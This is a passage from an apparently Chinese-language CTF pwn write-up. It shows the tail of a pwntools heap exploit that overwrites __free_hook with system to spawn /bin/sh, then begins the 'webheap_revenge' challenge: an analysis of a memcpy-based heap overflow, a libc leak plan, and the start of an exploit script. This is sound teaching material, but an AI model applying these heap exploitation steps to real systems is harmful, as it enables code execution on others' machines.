 ```python

delete(2)
delete(3)

edit(3, p64(free_hook_addr))


add(4, 0x80)  # 4
add(5, 0x80)  # 5 <--> 3
add(6, 0x80)  # 6
edit(6, b'/bin/sh\x00')
edit(5, p64(system_addr))
delete(6)


sh.interactive()

```



## webheap_revenge

```bash
patchelf --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ --set-interpreter ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/ld-2.27.so --replace-needed libm.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libm.so.6 --replace-needed libc.so.6 ~/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6 --replace-needed libgcc_s.so.1 /mnt/f/Downloads/libgcc_s.so.1 --replace-needed libstdc++.so.6 /mnt/f/Downloads/libstdc++.so.6.0.25 webheap_revenge
```

这题没想到 IDA 打开之后很清晰，比 `webheap` 清晰很多，一眼就能看出来结构。

![image-20221108152026453](https://cdn.novanoir.moe/img/image-20221108152026453.png)

对比可以发现，`delete` 的 UAF 已经没了。

但是在 `edit` 里，我们可以发现它进行了一个 `memcpy` 的操作，但是 `chunk_size` 在调试后发现它实际上是我们序列化中 `str` 的大小（准确来说，它是像`malloc`一样 8 字节向上对齐的）而并非我们在 `add` 操作中记录的堆的大小，这就造成可以堆溢出，直接改指针就好。（难点大概就是这个 `v128` 了，不知道它什么时候被赋值了，靠 `gdb` 调出来的）

由于 `add` 的时候只进行了 `malloc` 而没有设置堆内容，所以我们依然可以通过 ub 泄露 `libc`。之后继续打 `free_hook` 即可

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./webheap_revenge'])
elf = ELF('./webheap_revenge')
libc = ELF('/home/nova/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc-2.27.so')
# sh = remote('172.51.65.90',9999)

"""
struct Person {
  std::uint64_t cmd;
  std::uint64_t idx;
  std::uint64_t sz;
  std::string name;
  std::uint64_t nothing;
  NOP_STRUCTURE(Person, cmd, idx, sz, name, nothing);
};
"""

def pack_int(num: int):
    return b'\x82' + p32(num)
```